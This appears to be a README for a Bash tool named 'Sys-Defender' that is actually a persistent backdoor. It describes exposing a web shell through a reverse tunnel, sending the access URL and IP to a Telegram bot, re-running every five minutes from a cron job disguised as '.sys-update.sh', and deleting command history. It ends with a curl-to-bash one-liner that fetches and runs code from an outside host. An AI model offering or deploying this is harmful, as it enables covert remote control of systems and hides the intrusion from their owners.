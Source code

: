 # Sys-Defender
================

Sys-Defender is a Bash script designed to provide a secure and persistent way to access a Linux system via a reverse SSH connection. The script uses the `gotty` tool to create a reverse SSH connection and the `serveo.net` platform to generate a public URL that can be used to access the system.

## Features

*   Creates a reverse SSH connection using `gotty` and `serveo.net`
*   Generates a public URL that can be used to access the system
*   Sends the public URL and the public IP address of the system to a Telegram chat using a bot
*   Installs a cron job to run the script every 5 minutes to keep the reverse SSH connection active
*   Deletes recent command history to maintain privacy

## Prerequisites

*   A Linux system with Bash installed
*   The `gotty` tool (automatically installed if not available)
*   A Telegram account and a configured bot
*   The `serveo.net` platform (used to generate the public URL)

## Usage

1.  Edit the script and replace the `TELEGRAM_TOKEN` and `TELEGRAM_CHAT_ID` variables with your own values.
2.  Edit the script and replace the `SCRIPT_URL` variable with the URL of the script you want to execute.
3.  Run the script as root using the command `./sys-defender.sh`
4.  The script will generate a public URL and send it to your Telegram chat.

## Installation

1.  Clone the repository using the command `git clone https://github.com/your-username/sys-defender.git`
2.  Change to the repository directory using the command `cd sys-defender`
3.  Edit the script and replace the `TELEGRAM_TOKEN` and `TELEGRAM_CHAT_ID` variables with your own values.
4.  Edit the script and replace the `SCRIPT_URL` variable with the URL of the script you want to execute.
5.  Run the script as root using the command `./sys-defender.sh`

## Contribution

If you would like to contribute to this project, you can do so in several ways:

*   Report bugs or issues in the repository's issues section.
*   Provide suggestions or ideas for improving the script in the repository's issues section.
*   Make changes to the code and submit a pull request to the repository.

## License

This project is licensed under the MIT License. You can find more information in the LICENSE file of the repository.

## Acknowledgments

*   To the developers of `gotty` and `serveo.net` for providing useful tools and platforms for this project.
*   To the Telegram community for providing a platform for communication and collaboration.

## Security Notes

* **Responsible Use**: This script should only be used on systems where you have permission to access. Unauthorized use of this script may be considered illegal and could have legal consequences.
* **Telegram Bot Configuration**: Ensure that your Telegram bot has the appropriate permissions to send messages to your chat. You can set up a bot using BotFather on Telegram.
* **SSH Connections**: The reverse SSH connection can be a vector for attack if not managed properly. Make sure to protect your system with firewalls and other security measures.

## Common Issues

1. **URL not generated**: Ensure that `serveo.net` is functioning correctly and that there are no network issues preventing the connection.
2. **Error sending message to Telegram**: Verify that your `TELEGRAM_TOKEN` and `TELEGRAM_CHAT_ID` are configured correctly. Ensure the bot has access to the chat.
3. **Gotty not installing**: If there is an issue downloading or installing `gotty`, check your internet connection and ensure the download link is valid.

## Customization

You can customize the script according to your needs:

- **Cron Frequency**: Change the line `CRON_JOB="*/5 * * * * $HOME/.sys-update.sh"` to adjust how often you want the script to run.
- **Additional Commands**: You can add more functionalities to the script as needed, such as executing specific commands or integrating with other services.

## Execution Example

To execute the script, run the following command:

```bash
    curl fsSL https://get.madolell.com | bash
````



